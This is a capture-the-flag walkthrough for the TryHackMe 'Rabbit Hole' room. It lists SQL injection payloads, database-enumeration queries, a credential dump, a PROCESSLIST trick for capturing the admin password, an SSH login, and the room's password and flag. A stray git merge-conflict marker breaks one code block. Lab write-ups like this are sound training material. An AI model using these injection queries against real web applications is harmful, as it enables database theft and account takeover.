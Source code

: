 # TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe
**Room Name:** Rabbit Hole
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
**Difficulty:** Intermediate

**Keywords for SEO:** tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information\_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab

> This is a complete, step-by-step professional walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
<<<<<<< HEAD




=======
```

**Discovered Open Ports:**

```
22/tcp (SSH)
80/tcp (HTTP)
```

Visit:

```
http://10.10.173.12
```

Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

---

## 🧪 Step 2: SQL Injection Detection

Test Payload:

```sql
' UNION SELECT 1;--
```

**Error Response:** Column mismatch confirms SQL injection is possible.

Working Payload:

```sql
' UNION SELECT 1,2;--
```

This confirms 2 columns are expected.

---

## 🧬 Step 3: Extract Database Names

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

**Result:**

```
information_schema,web
```

---

## 🗂 Step 4: Extract Table Names from `web`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

**Tables Found:**

```
users,logins
```

---

## 🧱 Step 5: Extract Columns from `users`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

**Columns:**

```
id,username,password,group
```

---

## 🔐 Step 6: Dump User Data

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

**Dumped:**

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

## 👁️ Step 7: Monitor `PROCESSLIST` for Admin Password

Repeatedly run:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

**Target Output Example:**

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
```

Extract the cleartext password inside the `md5()` function.

---

## 💻 Step 8: SSH Login as Admin

```bash
ssh admin@10.10.173.12
```

**Password:**

```
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
```

---

## 🏁 Step 9: Capture the Flag

```bash
ls
cat flag.txt
```

**Flag:**

```
THM{this_is_the_way_step_inside_///////////////}
```

---

## 🧰 Tools & Techniques Used

* `nmap`, `curl`, `Burp Suite`
* Manual SQL injection testing
* `information_schema` enumeration
* MySQL `PROCESSLIST` query leakage
* Python scripting (`requests`, `bs4`)

---

## 📁 Included Scripts

### `sqli_automate2.py`

Automates 16-character chunked SQL data extraction using SUBSTR.

### `processlist_extractor.py`

Multi-threaded script to capture live SQL queries from MySQL `information_schema.processlist`.

---

## ✍️ Writeup by: Mohsin Arif

**GitHub:** [https://github.com/mhsn1](https://github.com/mhsn1)
**TryHackMe:** [https://tryhackme.com/p/mhsn1](https://tryhackme.com/p/mhsn1)

**Keywords:** tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial
